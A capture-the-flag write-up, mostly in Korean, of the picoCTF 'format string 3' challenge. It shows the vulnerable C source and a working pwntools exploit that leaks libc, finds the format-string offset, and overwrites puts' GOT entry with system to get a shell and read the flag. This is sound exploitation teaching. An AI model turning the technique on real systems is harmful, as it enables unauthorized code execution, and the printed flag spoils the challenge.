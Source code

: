 # [format string 3](https://play.picoctf.org/practice/challenge/449?category=6&originalEvent=73&page=1)

**Description**
> This program doesn't contain a win function. How can you win?
<br />

**Source Code:**
```c
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
<br />

**Binary Protections:**
```yaml
format-string-3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter./ld-linux-x86-64.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=54e1c4048a725df868e9a10dc975a46e8d8e5e92, not stripped

[*] '/home/kali/pico/format_string_3/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. setvbuf 주소 제공
2. print(buf) 호출 -> FSB 취약점 발생
3. puts("/bin/sh")
4. Partial RELRO
```
취합된 정보를 토대로 공격 과정을 정리하면, 문제에서 제공되는 `setvbuf`의 주소를 통해 `system`의 실제 주소를 계산할 수 있습니다. 바이너리는 Partial RELRO 상태이므로 GOT 조작이 가능합니다. 또한 `print(buf)` 호출 시 FSB 취약점이 발생합니다. 따라서 해당 취약점을 활용하여 `puts`의 GOT 엔트리를 `system`의 주소로 덮어쓴다면, 이후 `puts(normal_string)` 호출이 `system("/bin/sh")`로 이어져 최종적으로 쉘을 획득할 수 있을 것입니다.
<br />
<br />

### 1. `system` 주소 구하기
```bash
$ readelf -s libc.so.6 | grep "setvbuf"
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
$ readelf -s libc.so.6 | grep "system"
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```
위 오프셋을 가지고 `libc_base`, `system` 주소를 계산할 수 있습니다.

```python
from pwn import *

p = process("./format-string-3")

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process '/home/kali/pico/format_string_3/format-string-3': pid 1111
[*] libc_base:  0x7f255443a000
[*] libc_system:  0x7f2554489760
[*] Switching to interactive mode
$
```
<br />

### 2. 메모리 유출로 오프셋 구하기
```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fad387c23f0
AAAAAAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141
/bin/sh
```
`AAAAAAAA`의 오프셋은 파이썬으로 자동화하여 다음과 같이 구할 수 있습니다.
```python
data = ("AAAAAAAA0x7fad38920963|0xfbad208b|0x7fffc740cbb0|0x1|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x4141414141414141")
data = data.split("|")

target = "0x4141414141414141"

if target in data:
    idx = data.index(target)
    print(f"offset: {idx+1}")
```
```bash
$ python3 test1.py
offset: 38
```
<br />

### 3. GOT 덮어쓰기
```yaml
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/pico/format_string_3/format-string-3:
GOT protection: Partial RELRO | Found 4 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
...
```
pwndbg로 확인할 결과 puts의 got 주소는 0x404018입니다. 획득환 정보를 가지고 페이로드를 작성할 수 있습니다.

```python
from pwn import *

context.arch = "amd64"

p = process("./format-string-3")
# p = remote("rhea.picoctf.net", 51563)

p.recvuntil(b"0x")

libc_base = int(p.recv(14), 16) - 0x7a3f0
libc_system = libc_base + 0x4f760
log.info(f"libc_base: {libc_base: #x}")
log.info(f"libc_system: {libc_system: #x}")

pay = fmtstr_payload(38, {0x404018:libc_system})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './format-string-3': pid 1336
[*] libc_base:  0x7f89a0dd4000
[*] libc_system:  0x7f89a0e23760
[*] Switching to interactive mode
$
                                                                                               c                              \x8b         \xf0                      \x01                                                                 \x00                                                                                    \x00aaaaba\x18@@$
$ pwd
/home/kali/pico/format_string_3
```
<br />

## FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 51563: Done
[*] libc_base:  0x7a9afecb0000
[*] libc_system:  0x7a9afecff760
[*] Switching to interactive mode
$
                                                                                               c                         \x8b                                                                                    \x01                                       \x00      \x00aaaabaa\x18@@$
$ ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
picoCTF{G07_G07?_7a2369d3}$
```
